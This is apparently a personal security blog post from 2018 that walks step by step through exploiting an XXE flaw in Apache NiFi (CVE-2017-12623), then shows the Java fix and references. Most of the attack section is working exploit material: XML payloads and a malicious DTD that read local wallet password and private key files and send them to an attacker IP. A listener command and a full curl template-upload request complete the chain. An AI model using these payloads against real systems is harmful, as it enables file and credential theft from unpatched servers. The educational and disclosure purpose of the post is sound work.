 +++
title = "Exploiting XXE Vulnerabilities in Apache NiFi"
date = "2018-01-11T17:30:00+08:00"
tags = ["exploit", "xxe", "nifi"]
categories = ["security"]
banner = "img/blog/2018/01/xxe-vulnerabilities-banner.png"
+++

## Introduction

I've based this write up on a fantastic one published by [Chris Davis from Counter Hack on the SANS Pen-testing blog](https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities). The actual exploit itself is one that has been acknowledged and [fixed in the latest public build of NiFi (1.4.0)](https://nifi.apache.org/security.html).

The reason for this post is purely for education purposes, as I'd worked with XML External Entity attacks in the past; but never fully understood how and why they work.

### Exfiltration over Inception

The first exploit works by taking advantage of a small gap in the well-formed restrictions put on the XML. Lets take a look at the way we could potentially load an external entity.

```xml
<?xml version="1.0" encoding="utf-8"?-->
<!DOCTYPE demo [
     <!ELEMENT demo ANY >
     <!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil">
     %extentity;
     ]
>
```

Here we are trying to load an entity from the URI of our control web server. Unfortunately however XML has some well-formed restrictions that prohibit this behaviour.

Instead perhaps we try **Entity Inception** where we attempt to load an external entity from another sub entity within our XML payload.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity "<!ENTITY stolendata SYSTEM ?file:///Users/nathan/Documents/bitcoinpassword'>">
    %extentity;
    ]
<
```

Unfortunately you cannot declare a URI to load an external entity (for example, `/Users/nathan/Documents/bitcoinpassword` and declare it as a value directly, so this isn't going to work either.

Knowing that we can't currently reference a file on the system, but we can get the parser to grab a resource from a URI we can look at a mechanism that allows us to load Data Type Defitions from a file. This is called DTD (Data Type Definition) and it's loaded prior to an XML file being parsed.

This actually lets us load in typically restricted entity payloads and bypass the checks done by some less robust parsers.

Take a look at the following DTD file that will be served up remotely

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/bitcoinpassword">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

The DTD file will load the target system with the `%inception` and `%sendit` variables, that come packed with the `%stolendata` entity; negating the well-formed restrictions.

Here's the XML file that will be loaded into NiFi to exploit the vulnerability.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
	<!ELEMENT demo ANY >
	<!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil.dtd">
	%extentity;
	%inception;
	%sendit;
	]
>
```

The diagram below outlines again how this attack takes place.

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-diagram.png" />

#### Running the Attack

Nathan has felt pretty smug recently, having made 1.6 billion fake dollars in the Crypto currency boom he's retired and started learning NiFi in his freetime.

He left his wallet private key and its password just sitting on the NiFi server (he use to use this system to mine) in his documents folder!

Let's use XXE to grad his data and make a clean get away! First we create the two files needs for this exploit:

* nifi-xxe-example.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
	<!ELEMENT demo ANY >
	<!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil.dtd">
	%extentity;
	%inception;
	%sendit;
	]
>
```

* evil.dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/bitcoinpassword">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

Then we start up a remote listener on port 9002 (or any port that was defined in the DTD and rouge NiFi template)

```bash
python -m SimpleHTTPServer 9002
```

Turns out he also left his NiFi server with the default `No Authentication`, so we can simply open up the web page that serves NiFi's flow viewer on http://nifi.nathanglover.com:8080/nifi/

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-flow-view.jpg" />

We then start up our python HTTP listener, or any other web server that could be hosting out malicious DTD payload

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-webserver.jpg" />

Then we just upload the template

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-upload-flow.jpg" />

You should see two GET requests to your web server

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-password-extract.jpg" />

* /evil.dtd - This is the NiFi instance pulling your malicious Data Type Definition file
* /?hunter1 - This is the contents of the `bitcoinpassword` file!

Now to get the private key we simply change the line in `evil.dtd` to a different target file and run it again

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/privatekey">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-private-key-extract.jpg" />

I've also included a copy of the `curl` command in case you want to run this headless

```bash
curl -i -s -k -X  'POST'  \
 -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:58.0) Gecko/20100101 Firefox/58.0'  -H 'Accept: application/xml, text/xml, */*; q=0.01'  -H 'Accept-Language: en-US,en;q=0.5'  -H 'Referer: http://nifi.nathanglover.com:8080/nifi/'  -H 'X-Requested-With: XMLHttpRequest'  -H 'Content-Length: 421'  -H 'Content-Type: multipart/form-data; boundary=---------------------------51116583712296344591231217332'  -H 'Cookie: _ga=GA1.2.449301531.1511008419'  -H 'Connection: keep-alive'  -H ''  \
--data-binary $'-----------------------------51116583712296344591231217332\r\nContent-Disposition: form-data; name=\"template\"; filename=\"nifi-xxe-example.xml\"\r\nContent-Type: text/xml\r\n\r\n<?xml version=\"1.0\" encoding=\"utf-8\"?>\n<!DOCTYPE demo [\n\t<!ELEMENT demo ANY >\n\t<!ENTITY % extentity SYSTEM \"http://203.59.106.231:9002/evil.dtd\">\n\t %extentity;\n\t%inception;\n\t%sendit;\n\t ]\n>\n\r\n-----------------------------51116583712296344591231217332--\r\n' \
'http://nifi.nathanglover.com:8080/nifi-api/process-groups/e5467fac-0160-1000-79c7-86152e91f12e/templates/upload'
```

This was based off the request captured from OWASP ZAP

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-owasp-zap.jpg" />

#### Limitations

Currently there a few limitations and exclusions to this attack. I've found that it only works appropriately when all the text in the file you are pulling is only a single line. I tested and noticed that `\n` characters appear to break the URI stream and you end up losing the whole value.

I also attempted to exploit a couple known [denial of service attacks](https://www.owasp.org/index.php/XML_Security_Cheat_Sheet#Quadratic_Blowup) however it became clear that Java SE 5+ has a restriction on entity expansion to 64,000 elements enabled by default, so if I try to ingest DoS XEE you'll get an error like the following

```bash
2018-01-11 23:20:40,226 ERROR [NiFi Web nifi-docker-01] o.a.nifi.web.ContentViewerController Unable to generate view of data: Unable to transform content as XML: net.sf.saxon.trans.XPathException: org.xml.sax.SAXParseException; lineNumber: 1; columnNumber: 1; JAXP00010001: The parser has encountered more than "64000" entity expansions in this document; this is the limit imposed by the JDK.
```

### The Fix
---

NiFi have currently fixed this bug in 1.4.0 releases of NiFi. The code changes can be found at the following commit:

[https://github.com/apache/nifi/commit/3bf1d127062a2d52d7be32e5ef29e19242219f48](https://github.com/apache/nifi/commit/3bf1d127062a2d52d7be32e5ef29e19242219f48).

To summarize, thet new code seen below now includes a secure processing validator which is run over all XML uploaded to NiFi from the template view

```java
public static final PropertyDescriptor SECURE_PROCESSING = new PropertyDescriptor.Builder()
        .name("secure-processing")
        .displayName("Secure processing")
        .description("Whether or not to mitigate various XML-related attacks like XXE (XML External Entity) attacks.")
        .required(true)
        .defaultValue("true")
        .allowableValues("true", "false")
        .addValidator(StandardValidators.BOOLEAN_VALIDATOR)
        .build();

...

private Templates newTemplates(ProcessContext context, String path) throws TransformerConfigurationException {
    final Boolean secureProcessing = context.getProperty(SECURE_PROCESSING).asBoolean();
    TransformerFactory factory = TransformerFactory.newInstance();

    if (secureProcessing) {
        factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
        // don't be overly DTD-unfriendly forcing http://apache.org/xml/features/disallow-doctype-decl
        factory.setFeature("http://saxon.sf.net/feature/parserFeature?uri=http://xml.org/sax/features/external-parameter-entities", false);
        factory.setFeature("http://saxon.sf.net/feature/parserFeature?uri=http://xml.org/sax/features/external-general-entities", false);
    }

    return factory.newTemplates(new StreamSource(path));
}
```

## References
---

[CVE-2017-12623 NIST Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-12623)

[NIFI-4125 commit resolving CVE-2017-12623](https://github.com/apache/nifi/commit/3bf1d127062a2d52d7be32e5ef29e19242219f48)

[Exploiting XXE Vulnerabilities in IIS/.NET](https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities)

[XML Schema, DTD, and Entity Attacks](https://vsecurity.com//download/papers/XMLDTDEntityAttacks.pdf)

[XML Security Cheat Sheet](https://www.owasp.org/index.php/XML_Security_Cheat_Sheet)